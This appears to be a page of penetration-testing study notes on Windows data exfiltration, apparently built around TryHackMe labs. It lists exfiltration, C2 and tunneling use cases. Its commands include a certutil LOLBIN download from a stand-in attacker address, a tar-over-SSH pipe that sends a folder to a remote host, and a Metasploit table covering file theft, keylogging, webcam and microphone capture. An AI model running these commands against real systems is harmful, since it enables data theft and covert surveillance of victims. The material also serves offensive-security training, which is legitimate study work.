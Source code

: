 # Windows

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## How to use Data Exfiltration

There are three primary use case scenarios of data exfiltration, including:

1. Exfiltrate data
2. Command and control communications.
3. Tunneling

Traditional Data Exfiltration

<figure><img src="../../../../.gitbook/assets/0c3438995ccff35a5589b9abd3703b14.png" alt=""><figcaption></figcaption></figure>

C2 Communications

<figure><img src="../../../../.gitbook/assets/49ad248f2506a5a749dbb70732c32072.png" alt=""><figcaption></figcaption></figure>

Tunneling

<figure><img src="../../../../.gitbook/assets/b4c99b2aba13eac24379fee2d20ffbf6.png" alt=""><figcaption></figcaption></figure>

## Python web server

Attacker computer

```bash
python -m SimpleHTTPServer 80 : use port that is not used  
```

```bash
python3 -m http.Server 80
```

## Certutil  Download from target (Win Only)

```bash
certutil -urlcache -f http://attackeraddress/filename <fileNameWhenDownloaded>    
```

| Part                              | Purpose                                               |
| --------------------------------- | ----------------------------------------------------- |
| `certutil`                        | Built-in Windows utility for cert management (LOLBIN) |
| `-urlcache`                       | Uses the URL cache functionality to fetch the file    |
| `-f`                              | Force download even if cached                         |
| `http://attackeraddress/filename` | Remote URL of the payload or file                     |
| `<fileNameWhenDownloaded>`        | Name to save the file as on disk                      |

{% hint style="warning" %}
imporant when we dont have a meterpreter seassion and we need to download or upload files using the system unitilitys services.
{% endhint %}

## Metasploit commands

| Command                          | Function                                                 |
| -------------------------------- | -------------------------------------------------------- |
| `download /path/to/file`         | Downloads a specific file from the target                |
| `upload /local/file`             | Uploads a file to the target                             |
| `search -f *.docx`               | Finds files (e.g., `*.docx`, `*.xlsx`, `passwords.txt`)  |
| `cat /path/to/file`              | View file content inline                                 |
| `screenshot`                     | Take a screenshot of the user’s desktop                  |
| `keyscan_start` / `keyscan_dump` | Start and dump keystrokes                                |
| `record_mic` / `webcam_snap`     | Record audio or take webcam shots (if permissions allow) |

## SSH Exfiltration

Default

```bash
tar cf - task5/ | ssh user@ip "cd /tmp/; tar xpf -"
```

Custom Port

```bash
tar cf - FolderName/ | ssh -p 2222  user@ip "cd /tmp/; tar xpf -"
```

#### Step-by-step explanation:

1. **`tar cf - task5/`**
   * `tar` is used for creating and extracting archives.
   * `c` → **create** a new archive.
   * `f -` → output to **stdout** (the `-` means “write to standard output” instead of a file).
   * `task5/` → the folder you want to archive.
   * **Result:** a tarball of `task5/` is sent to stdout.
2. **`|` (pipe)**
   * This takes the stdout from the `tar` command (the archive data) and sends it as stdin to the next command.
3. **`ssh thm@jump.thm.com "cd /tmp/; tar xpf -"`**
   * `ssh thm@jump.thm.com` → connects to the remote host `jump.thm.com` as user `thm`.
   * `"cd /tmp/; tar xpf -"` → this is the command executed on the remote machine:
     * `cd /tmp/` → change directory to `/tmp/`.
     * `tar xpf -` → extract the archive received from stdin (`-` means stdin):
       * `x` → extract.
       * `p` → **preserve permissions**.
       * `f -` → read archive from stdin.

## &#x20;Icmpdoor

{% embed url="https://github.com/krabelize/icmpdoor" %}

<figure><img src="../../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

## Dns Exfiltration

## HTTP Exfiltration

{% embed url="https://www.youtube.com/watch?t=1018s&v=Cu8RbPo8gm0" %}
